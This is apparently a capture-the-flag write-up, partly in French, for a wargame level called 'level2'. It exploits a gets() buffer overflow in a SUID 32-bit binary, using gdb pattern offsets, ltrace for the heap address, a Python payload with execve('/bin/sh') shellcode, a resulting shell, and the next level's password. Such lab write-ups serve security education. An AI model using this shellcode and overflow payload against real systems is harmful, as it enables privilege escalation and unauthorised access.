 - We have a 32 bit ELF binary called level2 with SUID bit set, let's decompile de code:

```bash
char* p()
{
    fflush(stdout);
    void buffer;
    gets(&buffer);
    
    if ((__return_addr & 0xb0000000) != 0xb0000000)
    {
        puts(&buffer);
        return strdup(&buffer);
    }
    
    printf("(%p)\n", __return_addr);
    _exit(1);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return p();
}

```

-----

- Le but ici est de rentrer dans la condition, ensuite nous allons ecrire un shellcode dans notre buffer ET des NOP jusque EIP, On va ensuite ecraser EIP avec l'addresse de notre buffer et le shell code sera execute.

- Premierement trouvons l'offset de EIP

```bash
> gdb ./level2
> pattern create 200
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

- Executer le programme en donnant la chaine de caractere en entree utilisateur

> r <<< 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'

[+] EIP: 0x41414a41 ('AJAA')
- On sait maintenant que EIP est ecrase au pattern 'AJAA'de la chaine de caractere
- On peut maintenant connaitre l'offset de EIP a partir du buffer

gdb-peda$ pattern_offset AJAA
AJAA found at offset: 80
```

- Trouver l'addresse ou est stocke notre buffer sur la heap apres le strdup
```bash
> ltrace ./level02
ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20) = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5) = 0xbffff70c
puts("")    = 1
strdup("")  = 0x0804a008

[+] 0x0804a008
```



- Construction du Payload avec le shellcode

```bash
python -c 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A"*59 + "\x08\xa0\x04\x08"' > /tmp/payload

-> inserer le shellcode
-> Remplier la memoire avec n'importe quelle valeur jusque EIP
-> ecraser EIP avec addresse de buffer en little endian
```

- Run le programme avec notre payload
```bash
> (cat /tmp/payload ; cat) | ./level2
> id
euid=2022(level3)

> cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
















